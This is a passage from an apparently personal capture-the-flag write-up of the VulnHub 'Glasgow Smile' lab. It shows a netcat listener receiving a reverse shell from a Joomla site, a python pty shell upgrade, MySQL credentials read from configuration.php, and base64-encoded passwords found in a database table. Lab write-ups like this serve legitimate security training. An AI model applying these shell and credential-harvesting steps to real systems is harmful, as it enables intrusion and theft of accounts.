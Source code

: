 After that, I started a net cat listener on port 9001 and visited the index.php at <b>http://joker/joomla</b> and we managed to get a reverse shell.

```r
root@kali:~/vulnhub/glasgowSmile# nc -lvnp 9001
listening on [any] 9001 ...
connect to [192.168.1.7] from (UNKNOWN) [192.168.1.8] 58078
Linux glasgowsmile 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64 GNU/Linux
 02:26:32 up 58 min,  0 users,  load average: 0.00, 0.02, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: cant access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@glasgowsmile:/$
```
Once we were in, I started enumerating the joomla configuration files and found mysql credentials in <b>configuration.php.</b>

<center><br>
<img src="/assets/img/uploads/glasgow-smile/configuration.php.png">
</center>

Now we can login into MySQL using username <b>joomla</b> and password <b>babyjoker.</b>

```r
www-data@glasgowsmile:/var/www/joomla2$ mysql -u joomla -p
mysql -u joomla -p
Enter password: babyjoker
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 58
Server version: 10.3.22-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```
After logging in, I saw a database batjoke in which there was a table named taskforce, Inside taskforce, there were some usernames and passwords encoded into base64.
